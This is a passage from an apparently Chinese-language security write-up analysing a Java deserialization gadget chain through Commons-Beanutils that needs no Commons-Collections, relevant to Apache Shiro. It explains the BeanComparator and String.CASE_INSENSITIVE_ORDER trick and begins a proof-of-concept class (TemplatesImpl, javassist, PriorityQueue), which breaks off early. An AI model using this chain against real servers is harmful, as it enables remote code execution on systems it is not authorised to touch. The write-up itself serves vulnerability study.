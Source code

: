```
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("result.ser"));
        in.readObject();
    }
}
```

![image-20220307231739292](images/12.png)

但是需要Commons-Collections和Commons-Beanutils组件都要存在才可以RCE

# 无Commons-Collections依赖的gadget

## 漏洞分析

因为在一些时候是只有Commons-Beanutils依赖而不存在Commons-Collections依赖的

Commons-beanutils 本来依赖于 Commons-collections，但是在 Shiro 中，它的 commons-beanutils 虽然包含了一部分 commons-collections 的类，但却不全。这也导致，正常使用 Shiro 的时候不需要依赖于 commons-collections，但反序列化利用的时候需要依赖于commons-collections

所以在shiro中基本上是没有Commons-Collections依赖的

这个时候就需要利用BeanComaparator的这个构造器了

```
public BeanComparator(String property, Comparator<?> comparator) {
    this.setProperty(property);
    if (comparator != null) {
        this.comparator = comparator;
    } else {
        this.comparator = ComparableComparator.getInstance();
    }

}
```

第二个参数comparator默认情况下会使用Commons-Collections组件的ComparableComparator类，因为我们不需要使用Commons-Collections，使用这个comparator就需要去找一个实现了Comparator接口的类，而且还需要这个类实现了Serializable接口

P神已经找到 **String.CASE_INSENSITIVE_ORDER**这个类

![image-20220308183004944](images/13.png)

其他都不用链，只需要在实例化BeanComparator类的时候将第二个参数换为String.CASE_INSENSITIVE_ORDER类也即是CaseInsensitiveComparator类，可以通过String.CASE_INSENSITIVE_ORDER获取到

## 漏洞复现

POC

```
package CB;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Unser {
    // 修改值的方法，简化代码
    public static void setFieldValue(Object object, String fieldName, Object value) throws Exception{
        Field field = object.getClass().getDeclaredField(fieldName);
```